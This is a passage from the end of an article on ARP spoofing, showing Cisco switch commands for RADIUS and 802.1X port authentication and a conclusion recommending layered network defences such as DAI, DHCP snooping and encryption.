Switch(config)# radius server RADIUS-SERVER
Switch(config-radius-server)# address ipv4 192.168.1.50 auth-port 1812 acct-port 1813
Switch(config-radius-server)# key SecretKey123
Switch(config-radius-server)# exit

! Enable 802.1X globally
Switch(config)# dot1x system-auth-control

! Configure 802.1X per port
Switch(config)# interface GigabitEthernet0/2
Switch(config-if)# switchport mode access
Switch(config-if)# authentication port-control auto
Switch(config-if)# dot1x pae authenticator
Switch(config-if)# exit
```

## Conclusion and Recommendations

ARP spoofing is an old attack technique stemming from the structural limitations of the ARP protocol designed in the 1980s. However, it remains a serious threat in modern network environments. Especially in environments using legacy network equipment or with inadequate security configurations, attackers can easily intercept and modify network traffic.

Network administrators and security professionals must accurately understand the principles and risks of ARP spoofing. They should establish defense-in-depth strategies including endpoint protection (static ARP, monitoring tools), network infrastructure security (DAI, DHCP snooping, port security, VLAN segmentation), detection and monitoring (IDS/IPS, SIEM), and traffic encryption (VPN, HTTPS, 802.1X) to protect their organization's network assets. All security solutions must be regularly tested and updated to respond to new attack techniques.

Ultimately, transitioning to next-generation protocols that include authentication and integrity verification (e.g., NDP with SEND in IPv6 environments) is necessary to solve the fundamental security problems of the ARP protocol. However, in the reality where IPv4 networks are still widely used, the practical approach is to improve the actual security level by combining the defense techniques described above.
